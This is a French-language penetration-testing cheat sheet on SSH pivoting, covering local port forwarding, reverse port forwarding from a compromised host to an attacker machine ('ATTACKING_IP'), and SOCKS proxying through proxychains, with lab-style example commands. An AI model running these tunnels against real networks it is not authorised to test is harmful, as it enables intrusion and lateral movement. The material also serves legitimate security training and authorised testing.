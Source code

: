 # Forward Connections (Connexions de transfert)

La création d'un tunnel SSH direct (ou «local») peut être effectuée à partir de notre boîte d'attaque lorsque nous avons un accès SSH à la cible.

Il existe deux manières de créer un tunnel SSH de transfert: 
- La redirection de port 
- Création d'un proxy

### Local Port Forward (La redirection de port)

> Par exemple, si nous avions un accès SSH à 172.16.0.5 et qu'un serveur Web s'exécute sur 172.16.0.10, nous pourrions utiliser cette commande pour créer un lien vers le serveur sur 172.16.0.10

Sur kali :

```sh
ssh -L [bind_address:]port:host:hostport [username@address] -fN
```

```sh
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

### Remote Port Forward (La redirection de port distant)
> Reverse Connections ( Connexions inversées)


**Les connexions inversées sont tout à fait possibles avec le client SSH (et peuvent même être préférables si vous avez un shell sur le serveur compromis, mais pas d'accès SSH).**

Avant de pouvoir établir une connexion inversée en toute sécurité, nous devons suivre quelques étapes:

1. Tout d'abord, générez un nouvel ensemble de clés SSH et stockez-les dans un endroit sûr:

```
ssh-keygen
```

2. Copiez le contenu de la clé publique `id_rsa.pub`
3. Puis éditez le fichier `~/.ssh/authorized_keys` sur votre propre machine attaquante. (cree le si il n'existe pas)
4. Sur une nouvelle ligne, tapez la ligne suivante, puis collez la clé publique:

```c
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty {[Contenu de la cle id_rsa.pub]}
```

Cela garantit que la clé ne peut être utilisée que pour la redirection de port, empêchant la possibilité d'obtenir un shell sur votre machine attaquante.

5. Redemarrer le service SSH

```sh
sudo service ssh restart
```

6. Transférer la clé privée vers la box cible.C'est pourquoi nous avons généré un ensemble jetable de clés SSH à jeter dès que l'engagement est terminé.

7. Une fois la clé transférée, nous pouvons ensuite nous reconnecter avec une redirection de port inversée

```sh
ssh -R [kali-address:]port:host:hostport [kali@kali-address] -fN
```

```sh
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT kali@ATTACKING_IP -i KEYFILE -fN
```

> Par exemple, si nous avons un shell sur 172.16.0.5 et que nous voulons donner à notre boîtier d'attaque (172.16.0.20) l'accès au serveur Web sur 172.16.0.10, nous pourrions utiliser cette commande sur la machine 172.16.0.5 

```bash
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

Il est également possible de créer un reverse proxy inverse dans les clients qui le prennent en charge:  

```sh
ssh -R 1337 kali@ATTACKING_IP -i KEYFILE -fN
```

### Dynamic Port Forwarding (Proxy)

Ceci est utile lorsqu'il est combiné avec un outil tel que proxychains.

```sh
ssh -D [address to bind to]:[port to bind to] [user@address] -fN
```

```sh
ssh -D 1337 user@172.16.0.5 -fN
```

```sh
sudo nano /etc/proxychains.conf
	socks4 127.0.0.1 1337
```
